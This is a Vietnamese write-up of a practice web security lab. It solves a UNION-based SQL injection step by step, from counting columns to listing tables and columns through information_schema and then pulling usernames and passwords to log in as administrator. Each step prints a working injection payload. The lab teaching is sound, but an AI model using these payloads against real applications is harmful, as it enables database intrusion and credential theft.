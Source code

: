 **Yêu cầu**
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
To solve the lab, log in as the ``administrator`` user.

**Thực hiện**
- Bài lab này yêu cầu phải đi tìm tên bảng cũng như tên cột có chứa tài khoản của các users chứ không cho sẵn như bài trên. Đây là một bài trên hệ quản trị không phải Oracle.
![alt text](img/image-14.png)

- Đầu tiên, ta xác định được số cột trả về là 2 (giống bài trên). Thử kiểm tra cách hiển thị các cột với payload `category=a' UNION SELECT null,null`.
![alt text](img/image-15.png)  

- Xác định kiểu dữ liệu với payload: `category=a' UNION SELECT 'a','b'`
![alt text](img/image-17.png)

- Xác định các bảng trong db với payload
`category=Pets'+union+select+table_name,'b'+from+information_schema.tables+--+-`
![alt text](img/image-19.png)
![alt text](img/image-20.png)

=> Chúng ta tìm được bảng users với cái tên có thêm postfix đằng sau 
![alt text](img/image-22.png)

- Xác định các cột trong bảng pg_user với payload sau: 
`category=Pets'+union+select+column_name,'b'+from+information_schema.columns+where+table_name='users_uzpbpo'+--+-`
=> Xác định được bảng users có 3 cột, trong đó có 2 cột là username và password
![alt text](img/image-23.png)
![alt text](img/image-25.png)

- Tìm tài khoản và password của admin với payload sau: 
`Pets'+union+select+username_lhjoix,password_dyqvam+from+users_uzpbpo+--+-`
![alt text](img/image-26.png)

**Notes**
`information_schema`: là 1 database chứa các thông tin liên quan đến cấu trúc của các database khác. Ta dựa vào đó để có thể truy xuất thông tin cấu trúc của các table ( row, column,...). 
Với mỗi BDSM khác nhau thì sẽ có db chứa thông tin cấu trúc khác nhau với MySQL, POSTGRE,... thì là `information_schema`.

___

### Lab: SQL injection attack, listing the database contents on Oracle
